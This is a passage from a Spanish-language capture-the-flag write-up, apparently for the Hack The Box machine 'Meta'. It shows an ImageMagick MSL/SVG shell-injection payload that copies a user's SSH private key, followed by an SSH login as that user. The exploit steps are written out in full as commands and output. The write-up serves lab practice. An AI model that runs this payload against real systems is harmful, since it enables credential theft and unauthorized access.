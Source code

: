 Leemos el fichero `convet_images.sh` para entender su lógica y tomar provecho de ello.

```bash
www-data@meta:/tmp$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

## POC DE INYECCION

Vamos a realizar el escalamiento de privilegios por medio de la llave id_rsa del usuario **Thomas**, para esto vamos a seguir la guía de [insert-script](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) para inyectar y lograr leer el contenido de la llave puesto que no tenemos permisos de lectura a este fichero.

```bash
www-data@meta:/tmp$ cd /dev/shm
www-data@meta:/dev/shm$ nano poc.svg

<image authenticate='ff" `cat /home/thomas/.ssh/id_rsa > /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>

www-data@meta:/dev/shm$ cp poc.svg /var/www/dev01.artcorp.htb/convert_images/
```

Finalmente, luego del proceso anterior tenemos premisos de lectura para poder copiar la llave id_rsa de Thomas.

```bash
www-data@meta:/dev/shm$ ls -la
total 8
drwxrwxrwt  2 root     root       80 Jun 20 14:10 .
drwxr-xr-x 16 root     root     3080 Jun 19 19:18 ..
-rw-r--r--  1 thomas   thomas   2590 Jun 20 14:10 id_rsa
-rw-r--r--  1 www-data www-data  426 Jun 20 14:07 poc.svg
```	

Estamos listos para ingresar con un nuevo usuario por SSH, para esto vamos a crear un fichero `id_rsa` y se le asignan los permisos 600, requeridos para poder iniciar sesión con la llave obtenida.

## INTRUCIÓN

```bash
❯ vim id_rsa
❯ chmod 600 id_rsa
❯ ssh -i id_rsa thomas@10.10.11.140
The authenticity of host '10.10.11.140 (10.10.11.140)' can't be established.
ECDSA key fingerprint is SHA256:KjNiuFNo5CvSMSQO5ETmw1YJPtafmymn6SkBbMLIAFg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.140' (ECDSA) to the list of known hosts.
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```